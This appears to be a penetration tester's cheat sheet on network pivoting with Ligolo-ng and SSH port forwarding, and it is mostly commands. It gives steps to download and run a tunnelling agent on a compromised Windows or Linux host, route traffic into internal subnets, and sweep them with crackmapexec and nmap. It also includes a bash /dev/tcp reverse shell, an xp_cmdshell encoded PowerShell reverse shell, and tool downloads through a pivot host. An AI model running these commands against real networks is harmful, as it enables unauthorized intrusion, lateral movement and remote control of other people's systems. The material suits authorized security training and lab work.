

Ligolo-ng¶
My preferred tool for pivoting and tunneling. Once the tunnel is up, tools like nmap, curl, and crackmapexec work natively — no proxychains required for every command. Significantly faster and more stable than SOCKS-based approaches.
Download¶
Latest release: https://github.com/nicocha30/ligolo-ng/releases/

Keep a copy of:
- proxy — runs on your Kali (attacker)
- agent — runs on the compromised host (Windows or Linux)
Commonly used files:
- ligolo-ng_agent_0.7.5_linux_amd64.tar.gz
- ligolo-ng_agent_0.7.5_windows_amd64.zip
- ligolo-ng_proxy_0.7.5_linux_amd64.tar.gz
Basic Setup¶
Step 1 — Create TUN Interface on Kali (one time)¶
Step 2 — Start the Proxy on Kali¶
./proxy -selfcert
# Listens on 0.0.0.0:11601
# Note the TLS fingerprint — used to verify the agent connection
Step 3 — Transfer and Run Agent on Compromised Host¶
Windows:
# Disable progress bar first — dramatically speeds up the download
$ProgressPreference = "SilentlyContinue"
iwr -uri http://<kali_ip>/agent.exe -UseBasicParsing -Outfile agent.exe
# Connect back to Kali
.\agent.exe -connect <kali_ip>:11601 -ignore-cert
Linux:
Step 4 — Add Route to Internal Network on Kali¶
# Add route for the internal subnet reachable via the compromised host
sudo ip route add <internal_subnet>/24 dev ligolo
# Example
sudo ip route add 172.16.205.0/24 dev ligolo
# Verify the route was added
ip route list
Step 5 — Start the Tunnel in Ligolo Console¶
# In the ligolo proxy console, select the agent session and start
[Agent : NT AUTHORITY\SYSTEM@WEB02] » start
INFO Starting tunnel to NT AUTHORITY\SYSTEM@WEB02
Step 6 — Validate the Tunnel¶
# Sweep the internal network directly — no proxychains needed
crackmapexec smb 172.16.162.0/24
nmap -p 445,5985,80,443 172.16.162.0/24
Local Port Forwarding¶
Access internal web services (Jenkins, IIS, internal apps) directly in your Kali browser.
Step 1 — Add the Special Route on Kali¶
Step 2 — Map the Internal Service in Ligolo Console¶
Now open http://240.0.0.1:<internal_port> in your Kali browser to access the internal service directly.
Double Pivot — Catching Reverse Shells from Deeper Hosts¶
When you need a reverse shell from a host deeper in the network (Machine B) that can't reach Kali directly, use SSH dynamic port forwarding alongside Ligolo.
Step 1 — SSH Tunnel Through the First Pivot¶
# -D 9090: dynamic SOCKS proxy on localhost:9090
# -R :7777: forward port 7777 on Machine A back to Kali (file transfers)
# -R :8888: forward port 8888 on Machine A back to Kali (reverse shell)
ssh <user>@<machine_a_ip> -D 9090 -R :7777:localhost:7777 -R :8888:localhost:8888
Step 2 — Configure proxychains¶
Step 3 — Start Listener via proxychains¶
Step 4 — Trigger Reverse Shell on Machine B¶
Point the shell back to Machine A's IP on port 8888 — SSH forwards it to Kali:
# Bash reverse shell pointing to Machine A
bash -c 'bash -i >& /dev/tcp/<machine_a_ip>/8888 0>&1'
# Via xp_cmdshell if MSSQL
exec xp_cmdshell 'powershell -e <base64_payload_pointing_to_machine_a:8888>'
Step 5 — File Transfers via Port 7777¶
# Kali — serve files on port 7777
python3 -m http.server 7777
# Machine B — download via Machine A
iwr -uri http://<machine_a_ip>:7777/tool.exe -Outfile tool.exe
Chaining — Second Pivot¶
# On the second pivot host — download and run the agent
$ProgressPreference = "SilentlyContinue"
iwr -uri http://<kali_ip>/agent.exe -UseBasicParsing -Outfile agent.exe
.\agent.exe -connect <kali_ip>:11601 -ignore-cert
# Back on Kali — add the new deeper subnet
sudo ip route add <deeper_subnet>/24 dev ligolo
# In ligolo console — select the new agent session and start
Quick Reference¶
| Task | Command |
|---|---|
| Disable PS progress bar | $ProgressPreference = "SilentlyContinue" |
| Create TUN interface | sudo ip tuntap add user kali mode tun ligolo |
| Enable interface | sudo ip link set ligolo up |
| Start proxy | ./proxy -selfcert |
| Add network route | sudo ip route add <subnet> dev ligolo |
| Add local port forward route | sudo ip route add 240.0.0.1/32 dev ligolo |
| Start tunnel | start (inside ligolo session) |
| Verify routes | ip route list |
| Delete interface (cleanup) | sudo ip link delete ligolo |